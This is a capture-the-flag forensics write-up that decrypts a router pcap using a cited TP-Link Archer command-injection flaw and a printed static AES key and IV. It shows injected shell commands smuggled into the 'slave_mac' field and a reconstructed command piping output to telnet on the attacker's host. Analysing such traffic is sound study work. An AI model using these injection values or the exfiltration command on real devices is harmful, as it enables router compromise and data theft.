


# AC1750
_Category: forensics_

## Description
> My router is weird, can you help me find the problem?
>
> ac1750-452ca8a9038502712d30c628d3444e5a22894611f1286b7a818203bdf838b434.tar.gz
>
> Author: Jeffxx
## Solution
We were given a pcap file of the traffic between a router (192.168.0.1) and an attacker (192.168.0.105). We can see towards the end of the pcap file that the router returned a directory listing to the attacker.



Searching about the challenge name we came across this article https://www.thezdi.com/blog/2020/4/6/exploiting-the-tp-link-archer-c7-at-pwn2own-tokyo that detailed a command injection vulnerability in this specific router (TP-Link Archer A7). The post also specified that the UDP packets are encrypted in AES-CBC with a static key and IV. Also, we also know from the blog post that it's only using half the key (128-bit), we have the following key and IV.

```
key: TPONEMESH_Kf!xn?
IV: 1234567890abcdef
```

Since we were only give the pcap file, this indicated that the flag must be in it. Therefore, we proceed to decrypting the UDP packets in the traffic dump. Despite the gibberish at the beginning, we can still see some valid strings. More specifically, we can see the attribute to `slave_mac` contained some commands, in this case `;echo >f;`.




If we decrypt another packet, we can see different commands executed in the same field.


Therefore, it is pretty clear now that we have to decrypt all the UDP packets. To do this, one of our team member suggested scapy. The script looks like

```python
from scapy.all import *
from Crypto.Cipher import AES

cipher = AES.new("TPONEMESH_Kf!xn?", AES.MODE_CBC, "1234567890abcdef")

packets = rdpcap('ac1750.pcapng')

# iterate through every packet
for p in packets:
    if UDP in p:
        try:
            # We skip the first 16 bytes to properly decrypt the packet
            c = raw(p.load)[16:]
            try:
                d = str(cipher.decrypt(c))
                tmp = d.split(',')[3]
                # print(tmp)
                if 'printf' in tmp:
                    print(tmp[27], end="")
            except:
                pass
        except:
            pass
```
If we only print `tmp`, we'll see something like

```sh
☁  ac1750  python3 test.py
 "slave_mac": "\';echo>f;\'"
 "slave_mac": "\';printf \'(\'>>f;\'"
 "slave_mac": "\';printf \'l\'>>f;\'"
 "slave_mac": "\';printf \'s\'>>f;\'"
 "slave_mac": "\';printf \' \'>>f;\'"
 "slave_mac": "\';printf \'-\'>>f;\'"
 "slave_mac": "\';printf \'l\'>>f;\'"
 "slave_mac": "\';printf \'&\'>>f;\'"
 "slave_mac": "\';printf \'&\'>>f;\'"
 "slave_mac": "\';printf \'e\'>>f;\'"
 "slave_mac": "\';printf \'c\'>>f;\'"
 "slave_mac": "\';printf \'h\'>>f;\'"
 "slave_mac": "\';printf \'o\'>>f;\'"
 "slave_mac": "\';printf \' \'>>f;\'"
 "slave_mac": "\';printf \'h\'>>f;\'"
 "slave_mac": "\';printf \'i\'>>f;\'"
 "slave_mac": "\';printf \'t\'>>f;\'"
 "slave_mac": "\';printf \'c\'>>f;\'"
 "slave_mac": "\';printf \'o\'>>f;\'"
 "slave_mac": "\';printf \'n\'>>f;\'"
 "slave_mac": "\';printf \'{\'>>f;\'"
"error_msg":"Internal Error!"}\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00'
 "slave_mac": "\';printf \'W\'>>f;\'"
 "slave_mac": "\';printf \'h\'>>f;\'"
 "slave_mac": "\';printf \'y\'>>f;\'"
 "slave_mac": "\';printf \'_\'>>f;\'"
 "slave_mac": "\';printf \'c\'>>f;\'"
 "slave_mac": "\';printf \'a\'>>f;\'"
```
Finally, if we extract all the characters printed and combine them, we get the flag.

```sh
(ls -l&&echo hitcon{Why_can_one_place_be_injected_twice}>fag&&ls -l)|telnet 192.168.0.105 4321%
```
